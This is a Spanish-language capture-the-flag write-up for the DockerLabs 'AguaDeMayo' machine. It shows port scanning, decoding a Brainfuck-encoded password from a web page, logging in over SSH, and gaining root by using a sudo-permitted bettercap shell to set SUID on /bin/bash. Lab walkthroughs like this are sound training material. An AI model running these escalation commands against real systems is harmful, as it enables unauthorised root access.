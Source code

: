 ```yaml
---
icon: flag
---
```


# AaguaDeMayo DockerLabs (Easy)

### Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip aduademayo.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh aguademayo.tar
```

Info:

```
Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-06 08:22 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.70 seconds
```

### Gobuster

```shell
```

Info:

```
```

Vemos que hay un directorio llamado `/images` si vamos ahi hay una imagen sospechosa llamada `agua_ssh.jpg` pero aparentemente no hay gran cosa, si vemos el codigo de la pagina de `apache2` veremos lo siguiente.

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++.>+++++++++++..----.<<++.>>-------.+..+++++++++++.<<.>>-------.+++++.++++++.-----.<<.>>-.-------------.+++++++++++++++++++.+.---.-------------.<<.>>----.+++++++++++++.----------.<<.>>++++++++++++++++.------------.---.+++++++++.<<.>>+++++++++++.----------.++++++.<<.>>++.--------------.+++..<<.>>+++++++++.-------.----------.+.+++++++++++++.+.+.-------------------.+++++++++++++.----------.<<.>>+.+++++++++++++++++.-----------------.+++++++++++++.+++++++.-----.------------.+.+++++.-------.<<.>>-----.+++.+++++++++++++++..---------------.+++++++++++++.<<++++++++++++++.------------.
```

Un codigo de encriptacion `Brainfuck` y si lo desencriptamos dira algo como...

```
bebeaguaqueessano
```

Por lo que podria ser una posible contraseña y si probamos como nombre de usuario `agua` como pone en la imagen.

```shell
ssh agua@<IP>
```

Y como contraseña `bebeaguaqueessano` veremos que entramos dentro de la maquina.

> Credentials

```
User = agua
Pass = bebeaguaqueessano
```

### Privilege Escalation

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for agua on 29a2587cdbbf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 29a2587cdbbf:
    (root) NOPASSWD: /usr/bin/bettercap
```

Y si lo iniciamos.

```shell
sudo bettercap
```

Nos metera en una shell del binario, pero si hacemos `help` veremos lo siguiente.

```
help MODULE : List available commands or show module specific help if no module name is provided.
                active : Show information about active modules.
                  quit : Close the session and exit.
         sleep SECONDS : Sleep for the given amount of seconds.
              get NAME : Get the value of variable NAME, use * alone for all, or NAME* as a wildcard.
        set NAME VALUE : Set the VALUE of variable NAME.
  read VARIABLE PROMPT : Show a PROMPT to ask the user for input that will be saved inside VARIABLE.
                 clear : Clear the screen.
        include CAPLET : Load and run this caplet in the current session.
             ! COMMAND : Execute a shell command and print its output.
        alias MAC NAME : Assign an alias to a given endpoint given its MAC address.
```

Por lo que vemos podemos ejecutar comandos del sistema poniendo `!` delante de cada comando, por lo que si hacemos.

```shell
!chmod +s /bin/bash
```

Añadiremos `SUID` a la `bash` por lo que si nos salimos de ahi y ponemos.

```shell
bash -p
```

Seremos `root`.
